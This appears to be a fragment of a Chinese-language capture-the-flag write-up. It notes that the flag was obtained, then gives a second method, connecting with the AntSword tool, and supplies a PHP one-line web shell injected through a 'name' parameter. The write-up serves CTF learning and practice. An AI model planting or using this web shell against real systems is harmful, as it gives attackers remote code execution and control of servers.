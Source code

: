 ![image-20240125152535232](照片/image-20240125152535232.png)

得到flag

#### 方法二：蚁剑链接

```
name=<?php @eval($_POST[shell]);?>
```
